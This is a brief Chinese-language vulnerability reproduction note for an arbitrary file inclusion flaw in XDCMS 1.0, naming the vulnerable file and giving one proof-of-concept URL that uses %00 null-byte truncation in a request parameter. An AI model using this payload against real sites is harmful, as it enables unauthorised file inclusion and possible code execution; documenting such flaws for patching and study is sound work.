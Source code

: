 ```yaml
---
title: XDCMS 1.0 任意文件包含漏洞
id: zhfly3277
---
```


# XDCMS 1.0 任意文件包含漏洞

## 一、漏洞简介

要求PHP版本小于5.3，否则无法使用%00截断

## 二、漏洞影响

XDCMS 1.0

## 三、复现过程

漏洞文件：`api\index.php`

![image](../img/089914149bb3241de69e6b55dbb8ed75.png)

![image](../img/6ffe08166b8720056665a4a0e0742dfd.png)

安全过滤函数 发生鸡肋

很明显 %00截断

```
http://www.0-sec.org/api/index.php?c=xxxxxx%00dama.php 
```